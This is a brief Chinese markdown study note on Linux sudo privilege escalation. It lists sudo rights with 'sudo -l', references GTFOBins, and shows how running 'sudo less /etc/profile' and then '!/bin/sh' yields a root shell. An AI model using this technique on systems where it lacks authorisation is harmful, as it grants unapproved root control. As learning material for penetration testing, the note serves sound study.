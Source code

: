 `sudo -l`查看可利用的sudo权限工具<br />![](./images/20231017_2359181401.png)
### 利用搜索网站
[GTFOBins](https://gtfobins.github.io/)
### 举例
#### Less提权
`sudo less /etc/profile`<br />![](./images/20231017_2359193057.png)<br />`!/bin/sh`提升至root权限<br />![](./images/20231017_2359207263.png)
